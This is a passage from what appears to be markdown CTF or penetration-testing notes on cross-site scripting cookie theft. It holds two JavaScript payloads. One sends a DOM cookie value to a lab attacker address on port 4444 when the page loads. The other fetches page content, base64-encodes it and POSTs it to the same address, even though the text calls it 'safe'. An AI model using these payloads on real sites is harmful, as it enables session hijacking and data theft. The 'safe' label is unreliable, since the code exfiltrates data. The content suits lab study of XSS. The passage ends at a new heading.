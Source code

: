 * <mark style="color:purple;">You can also steals cookies that may been stored in the</mark> <mark style="color:orange;">**`DOM`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```javascript
window.addEventListener('DOMContentLoaded', function(e) {
    window.location = "http://10.10.16.8:4444/?tokyo=" + encodeURI(document.getElementsByName("cookie")[0].value)
})
```
{% endcode %}

* <mark style="color:purple;">In this code,</mark> <mark style="color:orange;">**`safeContentGrab`**</mark> <mark style="color:purple;">safely fetches & encodes content,</mark> <mark style="color:orange;">**`cookieExample`**</mark> <mark style="color:purple;">shows correct cookie access; contrast with direct</mark> <mark style="color:orange;">**`XSS`**</mark> <mark style="color:purple;">payload execution in</mark> <mark style="color:orange;">**`CTF`**</mark> <mark style="color:purple;">scenarios.</mark>

{% code overflow="wrap" %}
```javascript
function safeContentGrab() {
    var req = new XMLHttpRequest();
    req.open('GET', 'http://example.com', true);
    req.onload = function() {
        if (req.status === 200) {
            var encodedData = btoa(req.responseText);
            console.log('Encoded:', encodedData);
             var sendReq = new XMLHttpRequest();
             sendReq.open('POST', 'http://10.10.16.8:4444/', true);
             sendReq.send('tokyo=' + encodedData);
        }
    };
    req.send();
}

function cookieExample() {
    document.cookie = "testCookie=exampleValue; SameSite=Lax";
    var allCookies = document.cookie;
    console.log('All cookies:', allCookies);
}

safeContentGrab();
cookieExample();
```
{% endcode %}
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Stealing Cookies</mark>
